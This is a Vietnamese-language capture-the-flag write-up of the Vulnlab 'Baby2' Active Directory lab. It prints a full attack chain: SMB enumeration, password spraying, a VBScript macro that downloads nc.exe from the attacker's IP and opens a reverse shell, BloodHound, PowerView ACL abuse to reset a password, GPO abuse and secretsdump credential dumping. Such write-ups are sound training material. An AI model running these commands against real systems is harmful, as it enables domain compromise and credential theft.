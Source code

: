 ```yaml
---
title: WRITE-UP Vulnlab Baby2
date: 2024-9-30 09:00:01 +0700
categories: [write up, vulnlab, red team, oscp, window]
tags: [vulnlab]     # TAG names should always be lowercase
---
```


# Write-up Baby2 -Vulnlab
- Nmap 
```
sudo nmap -sC -sV -p1-20000 10.10.93.93 --min-rate=3000 -T4
```
![alt text](/assets/img/baby2/image.png)

day la lab AD vi port 88 mo 

- RECON SMB

```
crackmapexec smb target 10.10.93.93 -u 'guest' -p '' --shares //null search
```

![alt text](/assets/img/baby2/image-1.png)

ta co the null search duoc va doc duoc 

READ
* apps
* IPC$
* NETLOGON
* homes

WRITE
* homes

Gio xem la trong cac file share co gi nhe 

```
smbclient \\\\10.10.93.93\\apps
```

![alt text](/assets/img/baby2/image-2.png)

sau khi check t duoc 1 ma hex

![alt text](/assets/img/baby2/image-3.png)

co ve ko co gi check tiep 

```
smbclient \\\\10.10.93.93\\homes
```

![alt text](/assets/img/baby2/image-4.png)

co ve day se cho ta 1 list user

![alt text](/assets/img/baby2/image-5.png)

brute-force xem lieu chung ta co the lam gi duoc voi nhung user nay k su dung user:user

```
crackmapexec smb target 10.10.93.93 -u user -p user --continue-on-success
```

sau khi brute-force ta co duoc 2 user 


baby2.vl\Carl.Moore:Carl.Moore

baby2.vl\library:library

![alt text](/assets/img/baby2/image-6.png)

![alt text](/assets/img/baby2/image-7.png)

sau khi login ta co the doc duoc doc xem no xem co gi khong

READ 
* docs
* SYSVOL

```
smbclient \\\\10.10.93.93\\docs -U Carl.Moore --password='Carl.Moore'
smbclient \\\\10.10.93.93\\SYSVOL -U Carl.Moore --password='Carl.Moore'
```
![alt text](/assets/img/baby2/image-8.png)
![alt text](/assets/img/baby2/image-9.png)

sau khi check thi ta thay co 1 file cho phep tao o dia va truyen file qua lai trong server dan macro 
vi vay ta co the tao reverse o day
``` reverse vscript
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c mkdir C:\Temp"
oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.3.170:8888/nc.exe C:\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Temp\nc.exe 10.8.3.170 443 -e cmd.exe"

```

![alt text](/assets/img/baby2/image-11.png)
![alt text](/assets/img/baby2/image-10.png)

vay la t co the control duoc user ```baby2\amelia.griffiths```

den gio thi khong co huong phat trien tiep vi vay ta se phat trien tiep su dung bloodhound
```
bloodhound-python -d 'baby2.vl' -u 'Carl.Moore' -p 'Carl.Moore' -c all -ns 10.10.93.93 --zip
```
![alt text](/assets/img/baby2/image-12.png)

![alt text](/assets/img/baby2/image-14.png)

ta thay la user cua ta co the ```WRITEDACL``` toi ```GPOadm```
ta import powerview de co the chay nhie command hon
```
certutil -urlcache -f http://10.8.3.170:8888/powerview.ps1 powerview.ps1
import-module ./powerview.ps1
```
![alt text](/assets/img/baby2/image-13.png)

vi ta co quyen WriteDACL len GPO vi vay ta co the doi mat khau cua ```gpoadm```

```
Add-DomainObjectAcl -Rights "all" -TargetIdentity "gpoadm" -PrincipalIdentity "Amelia.Griffiths"

$cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

set-domainuserpassword gpoadm -accountpassword $cred
```

sau khi doi mat khau cua ```gpoadm``` thi ta thay la thang ```gpoadm``` co quyen ```generic all``` cho phep abuse den ```domain controler``` 

thi ben trong huong dan cua thang bloodhound keu su dung tool ```pygpoabuse``` de abuse ```gpoadm``` to administrator

```
python3 pygpoabuse.py baby2.vl/gpoadm:Password123! -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 -dc-ip 10.10.93.93 -command 'net localgroup administrators /add gpoadm'
```
![alt text](/assets/img/baby2/image-15.png)

sau khi abuse thi de join vao may thi can mat khau ```SAM``` cua may cai nay thi thang ```impacket-secretdump``` lam dc 

```
impacket-secretsdump baby2.vl/gpoadm:'Password123!'@10.10.93.93
```

![alt text](/assets/img/baby2/image-16.png)

login with hash password dump duoc voi ```evil-winrm```

![alt text](/assets/img/baby2/image-17.png)

Now we are root :3